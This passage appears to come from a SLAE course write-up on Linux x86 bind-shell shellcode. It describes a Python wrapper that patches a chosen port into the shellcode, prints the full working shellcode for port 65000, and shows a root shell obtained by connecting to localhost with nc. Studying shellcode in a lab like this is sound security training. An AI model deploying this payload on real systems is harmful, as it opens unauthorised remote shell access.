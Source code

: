```shell
root@kali:~/workspace/SLAE# ./sc_test
Shellcode Length: 109
```

In another terminal window, `nc` or `ncat` can be used to test the functionality of the shellcode in its entirety in the same way that the code was tested in a previous section.

## Wrapper Program for Port Configuration
Using Python, the bind port can easily be configured within the shellcode. During the analysis of the assembly code, recall that the port to bind was saved to memory using the `PUSH WORD 0x5c11` instruction during the creation of the IP Socket Address Structure called `addr`. The port number is an unsigned 16-bit integer, so is possible to represent the entire range of ports (`0 - 65535`) using two bytes.

As the `PUSH` instruction stores bytes to the stack in the order of least-signficant to most-significant, `0x5c11` appears in the shellcode as `\x11\x5c`. Knowing this, a program was created to take a user-supplied port number which will be converted to network byte order, converted to hex, formatted, and ultimately used to replace the `\x11\x5c` string present in the base TCP bind shell shellcode. 

The program includes basic validation checks that can be altered in the future to provide encoding to account for `NULL` bytes introduced to the shellcode as a result of port number specification. Port values that result in a `NULL` byte are all values less than or equal to `256` (due to the low-order byte having all 8 bits set to `0`) and all other values that are evenly divisible by `256` (due to the high-order byte having all 8 bits set to `0`). A demonstration of the program follows.

To save space, the program code has not been included here. The full code for the program can be found on [GitHub](https://github.com/norrismw/SLAE). Using this program with the shellcode generated previously results in the following output:

```shell
root@kali:~/workspace/SLAE# python3 ConfShell.py bind 65000
\x31\xd2\x31\xc9\x31\xdb\x31\xc0\x52\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xc6\x52\x66\x68\xfd\xe8\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x52\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x52\x52\x56\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xd1\x89\xc3\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

This output can then be used in `sc_test.c` as outlined previously. After compiling the new shellcode within `sc_test.c`, a connection can be made to `localhost` on the specifed port of `65000` that results in shell.

```shell
root@kali:~/workspace/SLAE# nc -v localhost 65000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:65000.
id
uid=0(root) gid=0(root) groups=0(root)
ifconfig                
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.57.197  netmask 255.255.255.0  broadcast 192.168.57.255
        inet6 fe80::20c:29ff:fe40:6c57  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:40:6c:57  txqueuelen 1000  (Ethernet)
        RX packets 286221  bytes 396564230 (378.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 41605  bytes 2844136 (2.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1620  bytes 206307 (201.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1620  bytes 206307 (201.4 KiB)
```